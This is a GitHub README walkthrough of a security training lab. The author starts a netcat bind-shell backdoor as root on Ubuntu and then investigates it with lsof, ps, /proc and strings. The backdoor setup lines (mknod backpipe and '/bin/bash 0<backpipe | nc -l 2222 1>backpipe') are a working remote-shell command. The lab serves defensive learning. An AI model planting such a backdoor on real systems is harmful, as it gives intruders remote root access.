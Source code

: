 <h1>Linux CLI Lab</h1>



<h2>Languages and Utilities Used</h2>

- <b>Linux</b> 


<h2>Environments Used </h2>

- <b>Ubuntu terminals</b> 
- <b>VM Ware</b>

<h2>Program walk-through:</h2>

<p align="left">
In this Antisyphon lab (part of their fantastic SOC Core skills course with John Strand), I was looking at a backdoor using the Linux CLI.

I used a large number of basic commands to get a better understanding of what the backdoor is and what it does.

For this lab I ran three different Ubuntu terminals.

The first was where we run the backdoor.

The second was where we connect to it.

The third was where we ran the analysis.

<br/>

<br />On the Linux terminal, I used sudo su - to get a root prompt. This was so we could have a backdoor running as root and a connection from a different user account on the system.

  <p align="left">
I next needed to create a fifo backpipe:
    mknod backpipe p
Next, let's start the backdoor with the following command:

/bin/bash  0<backpipe | nc -l 2222 1>backpipe

This was complicated for me but this basically created a backdoor listening on port 2222 of the linux system. 

I had to find the IP address of our linux system using ifconfig command:

<br/>
<img src="https://github.com/mdnorris1/LinuxCLILab/blob/main/assets/ifconfig.png" height="80%" width="80%" alt="ifconfig command"/>
<br />

Then we connected via the command

 nc <whatever the ip address is here!> 2222


The following commands made sure it was working

ls

whoami

You can see below I was connected to the simple Linux backdoor as root, as it just dropped the cursor back to the left side of the screen.

<br/>
<img src="https://github.com/mdnorris1/LinuxCLILab/blob/main/assets/Clipboard_2020-12-11-07-19-48.png" height="80%" width="80%" alt="ifconfig command"/>
<br />

Next I had to open another Ubuntu terminal to start the analysis. 

I then went back to being root using sudo su - because looking at network connections and process information systemwide requires root access. 

I used the command lsof to look at the network connections and open files. 

When we use the -i flag we are looking at the open Internet connections. When we use the -P flag we are telling lsof to not try and guess what the service is on the ports that are being used. Just give us the port number. 

lsof -i -P

<br/>
<img src="https://github.com/mdnorris1/LinuxCLILab/blob/main/assets/lsof.png" height="80%" width="80%" alt="ifconfig command"/>
<br />

Next was digging into the netcat process ID using the lowercase p. This will give us all the open files associated with the listed process ID eg 131.

lsof -p 131

<br/>
<img src="https://github.com/mdnorris1/LinuxCLILab/blob/main/assets/lsof%202.png" height="80%" width="80%" alt="ifconfig command"/>
<br />


Let's look at the full processes. We can do this with the ps command. We are also adding the aux switches. This is a for all processes, u for sorted by user and x to include the processes using a teletype terminal.

ps aux

<br/>
<img src="https://github.com/mdnorris1/LinuxCLILab/blob/main/assets/lsof%203.png" height="80%" width="80%" alt="ifconfig command"/>
<br />


We had to change directories into the proc directory for that pid. Apparently, proc is a directory that does not exist on the drive. It allows us to see data associated with the various processes directly. This can be very useful as it allows us to dig into the memory of a process that is currently running on a suspect system.

cd /proc/[pid]

I was able to see a number of interesting directories here using the ls command:

ls

<br/>
<img src="https://github.com/mdnorris1/LinuxCLILab/blob/main/assets/ls.png" height="80%" width="80%" alt="ifconfig command"/>
<br />

I then ran strings on the exe in this directory. This is very, very useful according to John as when programs are created there may be usage information, mentions of system libraries and possible code comments. We use this all the time to attempt to identify what exactly a program is doing.

strings ./exe

<br/>
<img src="https://github.com/mdnorris1/LinuxCLILab/blob/main/assets/strings.png" height="80%" width="80%" alt="ifconfig command"/>
<br />

Hope you enjoyed the walkthrough!
<!--
 ```diff
- text in red
+ text in green
! text in orange
# text in gray
@@ text in purple (and bold)@@
```
--!>
